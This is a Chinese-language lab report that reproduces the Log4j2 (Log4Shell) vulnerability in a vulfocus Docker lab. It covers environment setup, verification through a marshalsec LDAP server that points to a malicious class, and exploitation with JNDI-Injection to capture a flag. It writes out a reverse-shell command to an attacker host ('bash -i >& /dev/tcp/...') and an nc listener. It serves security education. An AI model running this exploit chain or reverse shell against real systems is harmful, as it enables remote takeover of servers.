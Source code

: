 # 实验报告：Log4j2 44228漏洞环境搭建、漏洞验证与漏洞利用复现
## 一、实验目的
    搭建Log4j2 44228漏洞环境。
    验证漏洞的存在。
    利用漏洞获得flag

## 二、实验环境

### 操作系统：
1. Kali Linux
2. Java版本：JDK 1.8.0 202
3. Log4j2:
4. 测试工具：JNDI injector

## 三、实验步骤
### （一）漏洞环境搭建

    安装Java环境,下载并安装JDK1.8.0,验证java版本。
![alt text](./images/1742744070291.png)

    使用docker pull vulfocus/vulfocus:latest，编写vulfocus启动脚本,-d 是后台运行
![alt text](./images/1742744257111.png)


    赋予执行权限之后就可以运行这个脚本启动了
![alt text](./images/1742744336569.png)

    去镜像管理界面点击一键同步，搜索log4j2找到远程命令执行漏洞2，点击下载
![alt text](./images/1742744422165.png)


### （二）漏洞验证
    去首页启动该镜像，记住映射端口号
![alt text](./images/1742744483519.png)

    在浏览器中输入靶机网址：端口号，显示网页
![alt text](./images/1742744591379.png)

    在攻击者主机安装ldap server，编写启动脚本
1. marshalsec-0.0.3-SNAPSHOT-all.jar是反序列化利用工具
2. maeshalsec.jndi.LDAPRefServer用于启动LDAP服务
3. 指定恶意类的 URL 为"https://192.168.56.104:8080/#Exploit"
![alt text](./images/1742744780450.png)

    这个ldap服务器是用于在目标主机出发jndi查询的时候返回一个http的引用，运行此脚本
![alt text](./images/1742745347748.png)

    记住这个端口，构造payload，并使用url对其编码
![alt text](./images/1742745406763.png)

    复制编码，将其粘贴到payload=后面，并访问，显示ok
![alt text](./images/1742745504247.png)

    攻击者主机上面显示了查询记录
![alt text](./images/1742745549186.png)

### （三）漏洞利用复现
    安装JNDI-Injection，编写启动脚本，赋予权限。
1. 带有-SNAPSHOT-all.jar的是反序列化利用工具
2. -C 后面接的是想运行的代码的base64编码 bash -i >& /dev/tcp/192.168.56.104/6666 0>&1
3. bash -i是启动一个交互式的bash shell，-i意思是interactive
4. \>& 是重定向操作符，用于将标准输出和标准错误

![alt text](./images/1742745720813.png)

    启动脚本，选择trustURLCodebase is false的那项
![alt text](./images/1742745749391.png)

    使用nc -lvvp 6666监听6666端口
![alt text](./images/1742745903162.png)

    构造payload
![alt text](./images/1742745926937.png)

    拿到shell
![alt text](./images/1742745978450.png)

    在tmp文件夹中找到flag
![alt text](./images/1742746026757.png)

